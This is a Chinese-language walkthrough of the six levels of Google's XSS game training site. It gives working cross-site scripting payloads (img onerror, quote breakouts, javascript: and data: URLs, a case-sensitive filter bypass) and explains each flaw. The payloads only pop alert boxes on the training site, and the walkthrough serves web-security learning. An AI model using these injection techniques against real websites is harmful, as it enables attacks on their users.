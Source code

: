 ```yaml
---
title: Web - XSS game
---
```


## [Level 1: Hello, world of XSS](https://xss-game.appspot.com/level1)

![<script>alert(1)</script>](img/xss_game01.jpg)

## [Level 2: Persistence is key](https://xss-game.appspot.com/level2)

- 从第一篇博客可以看出来，HTML 标签是可用的，但`<script>alert(1)</script>`在本关不起作用<br>
![第一篇博客包含斜体、粉色字体](img/xss_game02.jpg)
- 利用标签事件属性，`<img src="a" onerror="alert(1)">`<br>
![弹框成功](img/xss_game03.jpg)

## [Level 3: That sinking feeling...](https://xss-game.appspot.com/level3)

- 访问包含指定图片的链接由基础链接`https://xss-game.appspot.com/level3/frame#`和图片序号组成。输入序号`<hi>hi`进行测试，发现该『序号』直接拼接到了`<img>`标签的`src`属性中<br>
![<img src="/static/level3/cloud<h1>hi.jpg">](img/xss_game04.jpg)
- 不过需要注意只有单引号才可以截断，查看 JS 代码可知<br>
![html += "<img src='/static/level3/cloud" + num + ".jpg' />";](img/xss_game05.jpg)
- 单引号截断，插入`onerror`属性，完成弹框<br>
![a' onerror='alert(1)'](img/xss_game06.jpg)

## [Level 4: Context matters](https://xss-game.appspot.com/level4)

- 提交一个整数，会启动一个计时器并在整数（提交的整数）秒后弹框，提示『计时结束』
- 查看源码，注意到
  ```html
  <img src="/static/loading.gif" onload="startTimer('{{ timer }}');" />
  ```
- 提交一个单引号`'`，控制台会报错，意味着逃逸的可能性<br>
![括号不匹配](img/xss_game07.jpg)
- 事件属性中可以添加多个函数，在`onload`事件属性中再塞一个`alert`函数就可以了咕！<br>
![');alert('1](img/xss_game08.jpg)

## [Level 5: Breaking protocol](https://xss-game.appspot.com/level5)

- 共三个界面：主界面、注册界面和注册完成提示跳转的界面
- 注册界面的 URL 包含参数`next`，同时注册界面的`Next >>`按钮的`href`属性的值由该参数决定
  ```py
  # part of level.py
  if "signup" in self.request.path:
        self.render_template('signup.html',
          {'next': self.request.get('next')})

  # part of signup.html
  <a href="{{ next }}">Next >></a>
  ```
- `href`属性可以链接 JS。访问 https://xss-game.appspot.com/level5/frame/signup?next=javascript:alert(1)，并点击`Next >>`可弹框<br>
![?next=javascript:alert(1)](img/xss_game09.jpg)

## [Level 6: Follow the 🐇](https://xss-game.appspot.com/level6)

- 访问文件的文件名是通过访问 URL 中 *#* 后的字符串决定，截取字符串后传递给`includeGadget`函数做后续处理
  ```html
  // Take the value after # and use it as the gadget filename.
  function getGadgetName() {
    return window.location.hash.substr(1) || "/static/gadget.js";
  }

  includeGadget(getGadgetName());

  function includeGadget(url) {
    // 创建一个 script 标签
    var scriptEl = document.createElement('script');

    // This will totally prevent us from loading evil URLs!
    // 只匹配小写，大写即可绕过
    if (url.match(/^https?:\/\//)) {
      setInnerText(document.getElementById("log"),
        "Sorry, cannot load a URL containing \"http\".");
      return;
    }

    // Load this awesome gadget
    scriptEl.src = url;

    // Show log messages
    scriptEl.onload = function() {
      setInnerText(document.getElementById("log"),
        "Loaded gadget from " + url);
    }
    scriptEl.onerror = function() {
      setInnerText(document.getElementById("log"),
        "Couldn't load gadget from " + url);
    }
    // 插入到 head 中
    document.head.appendChild(scriptEl);
  }
  ```
- `<script>`标签的`src`属性的值可以是指向 JS 文件的 URL，绝对路径或相对路径，或使用 Data URLs 【更方便】
- 通过指向 JS 文件的 URL 触发，使用咕果的 JSAPI<br>
![https://xss-game.appspot.com/level6/frame#HTTPS://google.com/jsapi?callback=alert](img/xss_game10.jpg)
- 通过 Data URLs 触发， MIME type 的值不影响<br>
![data:,alert(1)](img/xss_game11.jpg)

### 参考资料

[Data URLs - HTTP | MDN](https://developer.mozilla.org/en-US/docs/Web/HTTP/Basics_of_HTTP/Data_URIs)